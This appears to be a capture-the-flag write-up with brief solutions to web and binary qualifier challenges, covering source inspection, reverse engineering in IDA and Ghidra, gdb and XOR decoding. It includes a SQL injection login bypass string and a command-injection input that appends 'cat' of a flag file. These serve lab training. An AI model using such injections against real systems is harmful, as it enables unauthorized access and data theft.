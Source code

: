 **`Web: Qualifiers: Sequel Pro`**  
`we use SQL Injection for this as the title suggests`  
`user: admin`  
`pass: ' OR '1' = '1`  
`the secret appears`

**`Web: Qualifiers: Cake`**  
`we change the value of the FLAG cookie in applepie`  
`we refresh and we see the cookie updated`  
`it is containing the flag`

**`Web: Qualifiers: Welcome`**  
`we look at the source code`  
`first part in:`  
`/static/css/main.css`  
`second part in:`  
`<p id="hidden" style="margin-left:5px;display:inline:float:right">svyr_</p>`  
`third part in:`  
`/static/hidden.js?v=`  
`forth part in:`  
`/static/logo.png`

**`Web: Qualifiers: In Your Face`**  
`we look at the source code`  
`<!-- U1NTe2NhZ2VfdHJhdm9sdGF9Cg== -->`  
`we apply base64 on this string`

**`Web: Qualifiers: IP Destroyer`**  
`simple command injection to cat the flag.txt`  
`after searching in multiple the directories we find the flag inside /home/ctf/flag`  
`so the input to retrieve the flag is: -c 0 8.8.8.8; cat /home/ctf/flag`

**`Binary: Qualifiers: Black Hole`**  
`opened it in IDA`  
`we see that the flag is printed in /dev/null and it is impossible to retrieve it from that address`  
`we use gdb to see the flag before it is written in that file`  
`gdb ./black_hole`  
`gef➤  break fwrite`  
`gef➤  run`  
`gef➤  x/s $rdi`  
`0x602480:       "SSS{the_[REDACTED]_see}"`

**`Binary: Qualifiers: One by One`**  
`opened it in Ghidra and than we extract`  
`part20 64h; part0 53h; part24 6Fh; part18 6Fh; part3 7Bh; part27 7Dh; part11 6Fh; part13 5Fh; part23 6Ch; part12 66h; part14 74h; part21 5Fh; part9 70h; part26 6Bh; part17 5Fh; part25 63h; part15 68h; part6 63h; part7 68h; part22 62h; part2 53h; part8 69h; part5 5Fh; part19 6Ch; part4 61h; part16 65h; part1 53h; part10 5Fh`  
`we order them and than we convert them from base64`

**`Binary: Qualifiers: Not Backdoor`**  
`the file not_backdoor.exe is a POSIX tar archive (GNU)`  
`we extract the not_backdoor than we analyse the code in IDA`  
`we use the following script to try all XOR possibilities in the function sub_4006B6`  
`orig = [60, 60, 60, 20, 31, 29, 92, 27, 27, 22, 48, 12, 95, 1, 25, 0, 3, 26, 27, 10, 11, 48, 9, 3, 91, 8, 18, 111]`  
`for key in range(256):`  
    `decoded = ''.join(chr(b ^ key) for b in orig)`  
    `print(key, decoded)`  
`there was one result that matched the format starting with SSS and was the flag`

**`Binary: Qualifiers: Mirror Me`**  
`opened it in IDA`  
`in max_mirror() function the output is 906609`  
`we choose 2 numbers with the product 906609: 913 and 993, so we can get to system("/bin/sh");`  
`then we search for the flag in the system and we find it in ./home/ctf/flag`

**`Binary: Qualifiers: Pinpoint`**  
`opened it in IDA`  
`.data:0000000000601058 v    dd 53535353h`  
`this is the value we need to modify`  
`1398297427 = 0x53585353`  
`initially v is 0x53535353`  
`the four bytes are: at address 0x601058 is 0x53, at address 0x601059 is 0x53, at address 0x60105A is 0x53, at address 0x60105B is 0x53`  
`the only diff between the init value (0x53535353) and the target (0x53585353) is in the third byte (offset 2)`  
`we only need to change that byte`  
`offset 2 so we have to modify at 0x601058 + 2 = 0x60105A`  
`we must change it from 0x53 (83 decimal) to 0x58 (88 decimal)`  
`0x60105A = 6295642`  
`so the inputs are 6295642 and 88`  
`then we search for the flag in the system and we find it in ./home/ctf/flag`

**`Binary: Qualifiers: The Talker`**  
`*(_DWORD *)&s.sa_data[2] = htonl(0x7F000001u); -> sends to localhost`  
`*(_WORD *)s.sa_data = htons(4444u); -> sends at port 4444`  
`sleep(10u); -> each 10 seconds`  
`read_flag(buf, 128LL) reads ../flag into a buffer`  
`the binary sends to 127.0.0.1:4444 each 10 seconds using sendto()`  
`we login to connect@141.85.224.99 and we use nc -ul 4444 to listen to 4444 port and we receive the flag`